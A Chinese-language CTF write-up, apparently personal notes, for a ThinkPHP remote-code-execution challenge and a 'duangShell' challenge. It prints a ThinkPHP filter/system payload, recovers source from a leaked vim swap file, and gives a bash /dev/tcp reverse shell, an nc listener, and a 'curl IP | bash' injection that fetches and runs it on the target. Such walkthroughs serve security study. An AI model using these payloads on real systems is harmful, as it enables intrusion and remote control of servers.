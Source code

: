 

直接上php5以上的payload

```php
(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx
```

![1585115934246](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585115934246.png)

参考链接：

https://www.ebounce.cn/web/thinkphp-rce.html

https://www.gem-love.com/ctf/2097.html#i-5

## duangShell

![1585121253215](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585121253215.png)

swp泄密  访问/.index.php.swp得到源码 

![1585121523638](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585121523638.png)

![1585121703133](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585121703133.png)

![1585122177156](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585122177156.png)

输入`shell`是不大可能了 只能弹shell

 `exec()`和`system()`不同，`exec()`无回显，所以首选反弹shell，正好curl没ban 

使用 vim -r index.php.swp 恢复一下文件发现在

![1585122873671](C:\Users\honor\AppData\Roaming\Typora\typora-user-images\1585122873671.png)

使用代码审计

在buuctf basic 启动linux labs 开启apache

 `/etc/init.d/apache2 start` 

在apache根目录写一个反弹shell命名为bl.txt

```
bash -i >& /dev/tcp/内网攻击机的ip/2333 0>&1
```

```
nc -lvp 2333
```

再在靶机post传参

`girl_friend=curl IP:xxxx | bash`

参考链接：

https://www.cnblogs.com/leixiao-/p/9786320.html
